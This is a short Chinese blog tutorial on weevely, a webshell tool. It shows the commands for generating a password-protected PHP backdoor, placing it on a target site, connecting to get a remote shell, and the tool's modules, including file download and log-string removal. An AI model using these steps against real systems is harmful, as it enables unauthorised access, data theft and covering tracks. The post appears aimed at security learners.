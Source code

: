 ```yaml
---
layout: post
title: weevely 的使用
date: 2023-03-09
Author: 
categories: 
tags: [网络安全]
comments: false
toc: true
---
```


weevely是一款基于python编写的webshell生成、管理工具。

# weevely 常用命令

## 生成 weevely 后门木马文件：`weevely generate <password> <path>`

生成带密码的 php 文件。

```shell
[root@kali] ~ # weevely generate cmd cmd.php
Generated 'cmd.php' with password 'cmd' of 744 byte size.
[root@kali] ~ # 
```

## 连接 weevely 生成的木马：`weevely <URL> <password> [cmd]`

将 PHP 文件放在目标网站后，连接 php 文件。

```shell
[root@kali] ~ # weevely http://localhost/cmd.php cmd

[+] weevely 4.0.1
[+] Target:	localhost
[+] Session:	/root/.weevely/sessions/localhost/1_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> 
```

连接成功后会得到 shell，除了执行基础的系统命令，还可以输入 help，调用 weevely 模块。

```shell
weevely> help

 :system_procs                 List running processes.
 :system_extensions            Collect PHP and webserver extension list.
 :system_info                  Collect system information.
 :shell_php                    Execute PHP commands.
 :shell_su                     Execute commands with su.
 :shell_sh                     Execute shell commands.
 :file_ls                      List directory content.
 :file_clearlog                Remove string from a file.
 :file_grep                    Print lines matching a pattern in multiple files.
 :file_edit                    Edit remote file on a local editor.
 :file_find                    Find files with given names and attributes.
 :file_download                Download file from remote filesystem.
 :file_enum                    Check existence and permissions of a list of paths.
 :file_bzip2                   Compress or expand bzip2 files.
 :file_upload2web              Upload file automatically to a web folder and get corresponding URL.
 :file_zip                     Compress or expand zip files.
```